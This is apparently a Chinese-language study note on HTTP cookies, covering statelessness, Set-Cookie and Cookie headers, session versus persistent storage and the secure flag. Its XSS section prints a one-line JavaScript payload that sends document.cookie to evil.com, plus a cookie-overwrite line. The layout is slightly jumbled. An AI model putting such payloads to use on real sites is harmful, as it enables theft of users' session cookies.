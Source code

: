     服务器传送cookie时设置属性secure为true,表示创建的cookie只能在HTTPS连接中被浏览器传递到服务器端进行会话验证

  - 

  1. `xss攻击,` 盗取cookie的数据！获取私有用户的信息。

     ````js
     new Image().src=”http://www.evil.com?”+escape(document.cookie)
     ````

     即便secure开启且https => 你可以覆盖cookie的方法,对google进行了攻击

     ```js
     document.cookie=”user=admin;domain=’.test.com’;path=’/aaa’;secure;httponly”
     ```


#### 1 cookie

- 为什么要有cookie

  1. 在下一个请求发送时，服务器无法确定这次请求和上次的请求是否来自同一个客

     户端。`如何让服务器知道不同的请求是否来自同一个客户端`

     HTTP是一种无状态的协议： 无状态是指Web浏览器与Web服务器之间不需要建立持久的连接。

     ​	虽然你可以设置为持久连接，但是一段时间以后服务器也是可以断开。不管怎么样，你始终保持着客户端无相关信息的状态。

     - 在服务器端不保留连接的有关信息， 故你不能通过服务器端发送信息给客户端。
- 客户端保存用户状态即使用cookie，这样就变成了有状态的请求。
  
  2. cookies就是http的一个扩展

     有两个http头部是专门负责设置以及发送cookie的,它们分别是`Set-Cookie`以及`Cookie`

     第一次请求无cookie， 而第一次的响应会有 set-cookie。

     第二次请求 + cookie。

     - Set-Cookie

       ⭐ 响应的Response Header中的Set-Cookie就是告诉浏览器为当前页面设置cookie。

       1. 客户端建立一个cookie，并且在后续的http请求中自动发送这个cookie到服务器端，直到这个cookie过期。

       2. 如果cookie的生存时间是整个会话期间的话，那么浏览器会将cookie保存在内存中，浏览器关闭时就会自动清除这个cookie。

     - Cookie

       保存在客户端， 浏览器关闭的话，该cookie也不会被清除。下次打开浏览器访问对应网站时，这个cookie就会自动再次发送到服务器端。这便是常做的登录缓存。

- cookie的特点

  1. cookie也可以是一个会话！ 

     不设置过期时间，cookie被保存在`内存`中，生命周期`随浏览器的关闭`而`结束`

     除非你`设置`了cookie的过期时间, 

     cookie被保存在`硬盘`中，关闭浏览器后，cookie数据仍然存在，`直到过期时间结束`才消失

  2. cookie每次都会去发送。
